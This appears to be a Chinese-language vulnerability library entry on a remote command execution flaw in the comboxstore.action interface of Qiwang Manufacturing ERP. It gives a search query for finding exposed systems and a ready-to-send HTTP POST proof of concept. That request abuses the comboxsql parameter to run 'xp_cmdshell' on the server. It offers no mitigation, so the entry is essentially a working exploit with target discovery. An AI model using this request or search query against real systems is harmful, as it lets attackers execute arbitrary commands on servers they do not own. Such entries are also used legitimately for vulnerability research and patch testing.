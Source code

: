 # 企望制造 ERP comboxstore.action 远程命令执行漏洞

## 漏洞描述

企望制造 ERP comboxstore.action接口存在远程命令执行漏洞，攻击者通过漏洞可以获取服务器权限，执行任意命令

## 漏洞影响

企望制造 ERP

## 网络测绘

```
title="企望制造ERP系统"
```

## 漏洞复现

登陆页面

![image-20230828150159555](images/image-20230828150159555.png)

验证POC

```
POST /mainFunctions/comboxstore.action HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: 

comboxsql=exec%20xp_cmdshell%20'type%20C:\Windows\Win.ini'
```

![image-20230828150215433](images/image-20230828150215433.png)